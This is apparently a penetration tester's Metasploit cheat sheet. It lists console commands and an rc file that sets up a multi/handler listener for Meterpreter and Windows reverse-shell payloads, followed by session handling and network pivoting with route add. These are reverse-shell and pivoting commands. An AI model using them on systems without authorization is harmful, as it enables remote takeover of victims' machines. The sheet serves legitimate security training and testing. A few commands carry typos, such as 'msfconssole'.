 ```yaml
---
title: Metasploit
category: Exploitation
order: 2
---
```


> **Useage** 

Example rc file | <code> use exploit/multi/handler <br> set PAYLOAD windows/meterpreter/reverse_https <br> set LHOST 10.10.75.1 <br> set LPORT 8443 <br> set ExitOnSession false <br> exploit -j </code>
Run an rc file | <code> Resource <location of RC file> </code>
location | <code> /opt/metasploit-4.11/ or /usr/share/framework2/ </code>
Exploit Location | <code> <location>/apps/pro/msf3/modules/exploits/ </code>
Payload Location | <code> <location>/apps/pro/msf3/modules/payloads </code>
run | <code> ./app/msfconssole </code>
Show Exploits | <code> show exploits </code>
Find Exploits | <code> search multi/handler or search android </code>
Info about Exploits | <code> info exploit/multi/handler </code>
Use Exploit | <code> use exploit/multi/handler </code>
Show Payloads | <code> show payloads </code>
Set Payload | <code> set PAYLOAD windows/shell/reverse_tcp </code>
Show Options on Payload | <code> show options </code>
Set Remote Hosts | <code> set RHOST 10.10.77.1 </code>
Set Local Hosts | <code> set LHOST 10.10.75.1 </code>
Exit on Session | <code> set ExitOnSession false </code>
Exploit as Job | <code> exploit -j </code>
list running jobs | <code> Jobs </code>
List sessions | <code> sessions -l </code>
Interact with session | <code> session -i [n] </code>
Background a shell | <code> CTRL-Z </code>
Kill sessions  | <code> sessions -K </code>
Add a route | <code> route add [victim2 subnet] [netmask] [sid] </code> 
Errno:ECONNECT RESET | Reason: Windows Antivirus on client





